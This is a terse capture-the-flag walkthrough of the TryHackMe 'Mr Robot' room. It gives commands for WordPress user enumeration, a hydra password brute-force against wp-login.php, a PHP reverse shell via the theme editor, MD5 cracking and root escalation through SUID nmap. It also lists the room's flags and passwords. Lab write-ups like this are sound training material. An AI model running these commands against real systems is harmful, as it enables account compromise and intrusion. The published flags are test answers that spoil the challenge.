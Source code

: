 # [Challenge](https://tryhackme.com/room/mrrobot)

ngl best machine so far

- # ENUM
	- ### nmap (`nmap -p- -A -T4 mrrobot`)
		- PORT    STATE  SERVICE VERSION
			22/tcp  closed ssh
			80/tcp  closed http
			443/tcp closed https

- # KEYS (OF 3)
	- `http://mrrobot/key-1-of-3.txt` -> `073403c8a58a1f80d943455fb30724b9`
	- `/home/robot/key-2-of-3.txt`: `822c73956184f694993bede3eb39f959`
	- `/home/root/key-3-of-3.txt` -> `04787ddef27c3dee1ee161b21670b4e4`

- # EXPLOITATION
	- That's a wordpress website. Let's run `wpscan --url http://mrrobot --enumerate u`:
		- There's a `robot.txt` file.
			- There's a file named `fsocity.dic`. It looks like a wordlist.
	- `http://mrrobot/wp-login.php`: the username `elliot` exists! (Mr Robot main character)
		- Remove duplicates from the file: `sort fsocity.dic | uniq > output.txt`
		- Let's try Bruteforcing the password with `hydra`: `hydra -l elliot -P output.txt mrrobot http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -V -I -t 50`
			- Password: `ER28-0652`
				- Let's login into WordPress
	- There's another user: `mich05654`
		- Password: `Dylan_2791`
	- Let's find out how to RevShell
		- There are some files in the Editor, even a `-php` file: perfect for our reverse shell script!
			- Our script is visible in `http://mrrobot/wp-content/themes/twentyfifteen/archive.org`
				- We're daemon!
				- `python3 -c "import pty; pty.spawn('/bin/bash')"`

- # PRIVILEGE ESCALATION
	- `/home/robot/password.raw-md5` -> `robot:c3fcd3d76192e4007dfb496cca67e13b` ----- (RAW-MD5) ----> `robot:abcdefghijklmnopqrstuvwxyz` (`john --format=Raw-MD5 hash.txt`)
		- We can now read the second key.
	- Let's run `linpeas.sh`
		- Nmap has SUID bit set!:
			- `nmap` -> `!sh`
				- We're ROOT!
